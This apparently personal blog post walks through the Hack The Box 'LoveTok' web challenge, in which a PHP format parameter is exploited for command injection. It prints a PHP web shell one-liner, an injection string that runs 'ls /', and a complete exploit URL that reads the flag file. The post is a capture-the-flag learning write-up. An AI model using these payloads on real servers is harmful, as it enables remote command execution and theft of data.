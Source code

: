 ```yaml
---
layout: post
title: LoveTok
date: '2024-01-18'
description: "LoveTok is one of the easy web exploitation challenges on HTB"
categories: [HTB]
---
```


> **[LoveTok](https://app.hackthebox.com/challenges/lovetok)** is an easy web exploitation challenge which makes use web shells to extract sensitive data from a web server.

## Walkthrough
The lab provides an ip address and port number for the target host. Upon loading it on my browsere, I was directed to the LoveTok website.
![img-description](1.jpg)

The website does not have much information besides a button at the bottom of the page. Upon clicking the button, I noticed that the URL changed. 
```shell
http://94.237.62.195:37632/?format=r
```
![img-description](2.jpg)

I messed around with the r section of the URL and changed it to different system commands and the text at the bottom of the page kept on changing depending on the command used. 
![img-description](3.jpg)

I then proceeded to look at the downloaded files that came with the challenge and found an intersesting code in the Router.php file. The code shows a basic routing mechanism for a PHP application, allowing developers to define routes and corresponding controller functions or methods to handle incoming requests.

A specific section of the code stood out to me.
![img-description](4.jpg)

This section handles a scenario where a segment in the route pattern is a placeholder {param}, indicating that a parameter value is expected in that segment of the URL. If the current segment in the URL is an empty string then it aborts the script execution with an HTTP status code of 404 (Not Found).

From then, I used a web shell to bypass the conditional check in the router code and exploit the command injection vulnerability to execute arbitrary commands on the server, ultimately allowing me to extract sensitive data.

I found the following web shell payload:
```shell
<?php system($_GET['cmd']);?>
```
It uses the system() function to execute commands that are being passed through ‘cmd’ HTTP request GET parameter.

I adjusted the payload, to list all files and directories in the root directory of the web server. 
```shell
 ${system($_GET[cmd])}&cmd=ls /
```
![img-description](5.jpg)
I found a flag file and changed the system commands on the payload to open the file.

```shell
http://94.237.62.195:37632/?format=%20${system($_GET[cmd])}&cmd=cat%20/flagPmIxD
```
And Voila! I got the flag!
![img-description](6.jpg)

![img-description](7.jpg)